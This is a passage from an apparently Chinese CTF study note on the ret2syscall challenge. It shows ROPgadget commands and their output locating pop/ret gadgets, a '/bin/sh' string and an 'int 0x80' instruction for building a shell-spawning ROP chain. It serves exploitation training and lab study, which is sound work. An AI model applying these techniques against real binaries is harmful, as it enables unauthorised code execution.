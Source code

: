     <img src="C:\Users\XiZhongKuiYue\AppData\Roaming\Typora\typora-user-images\image-20220602195724435.png" alt="image-20220602195724435" style="zoom:33%;" />

  * 查找`gadget`

    > 查找可存储寄存器的代码
    >
    > ```python
    > ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
    > ---对于此题目则将rop换做ret2syscall---
    > ROPgadget --binary ret2syscall --only 'pop|ret' |grep 'eax'
    > ```
    >
    > 查找字符串
    >
    > ```python
    > ROPgadget --binary rop --string "/bin/sh"
    > ```
    >
    >
    > 查找有int 0x80的地址
    >
    > ```python
    > ROPgadget --binary rop  --only 'int'
    > ```
    >
    > rop指的是二进制文件名，详细的指令可通过输入指令`ROPgadget -h`查看。

    最终得到`gadget`

    > 第二行可以一次性控制住 edx, ecx, ebx

    ```python
    [1] 0x080bb196 : pop eax ; ret
    [2] 0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
    ```

    得到`'/bin/sh'`

    ```python
    $ ROPgadget --binary ret2syscall  --string  '/bin/sh'
    Strings information
    ============================================================
    0x080be408 : /bin/sh
    ```

    得到`int 80h`的地址

    ```python
    $ ROPgadget --binary ret2syscall  --only 'int'                 
    Gadgets information
    ============================================================
    0x08049421 : int 0x80
    
    Unique gadgets found: 1
    ```
